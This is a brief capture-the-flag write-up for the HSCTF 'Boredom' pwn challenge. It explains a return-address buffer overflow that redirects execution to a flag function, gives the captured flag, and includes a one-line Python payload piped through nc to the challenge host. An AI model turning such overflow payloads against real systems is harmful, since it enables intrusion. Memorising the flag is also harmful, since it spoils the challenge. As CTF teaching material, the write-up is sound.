

# Boredom

## Problem

```
Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

    check your offset, the offset is slightly different on the remote server
    the addresses are still the same

Author: PMP
```

## Solution

**Note:** *Payload script can be found under `exploit.py` in `scripts/boredom` folder.*


Simple buffer overflow, simply overwrite the return address with the address of `flag` function.



Flag: `flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}`

&nbsp;
---

**NTS:** note from PMP (challenge author): 

Common mistakes included:
- Using the wrong offset.
- Forgetting that addresses are 8 bytes long on 64-bit architectures, and thus need to be padded with null bytes to reach 8 bytes.

Alternate method (python on Terminal):
```
python -c 'print("A" * 208 + "\xd5\x11\x40\x00\x00\x00\x00\x00")' | nc pwn.hsctf.com 5002
```
